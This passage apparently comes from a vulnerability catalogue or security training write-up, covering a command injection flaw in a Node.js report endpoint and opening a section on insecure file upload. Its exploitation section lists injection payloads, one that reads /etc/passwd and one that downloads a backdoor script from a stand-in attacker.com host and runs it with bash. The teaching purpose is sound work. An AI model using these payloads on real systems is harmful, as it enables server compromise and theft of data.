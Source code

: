 ```javascript
      return res.status(500).json({
        error: 'Report generation failed',
        message: stderr
      });
    }
    
    // Read and return the report
    fs.readFile('/tmp/report.txt', 'utf8', (err, data) => {
      if (err) {
        return res.status(500).json({ error: 'Could not read report' });
      }
      
      return res.json({
        success: true,
        report: data
      });
    });
  });
});
```

### Technical Details

- **Root Cause**: User input directly injected into a command string
- **Vulnerability Pattern**: Concatenating user input into shell commands
- **Impact**: Allows attackers to execute arbitrary system commands

### Exploitation

1. **Inject shell commands using operators**:
   ```
   quarterly_sales; cat /etc/passwd
   ```

2. **More advanced payloads**:
   ```
   quarterly_sales && wget -O /tmp/backdoor.sh http://attacker.com/backdoor.sh && bash /tmp/backdoor.sh
   ```

3. **How it works**:
   - Shell command separators like `;`, `&&`, `||` allow chaining multiple commands
   - The injected commands execute with the same privileges as the web application
   - This allows arbitrary code execution on the server

4. **Result**: The attacker gains the ability to execute arbitrary commands on the server

---

## Vulnerability #11: Insecure File Upload

### Vulnerable Code: File Upload Handling
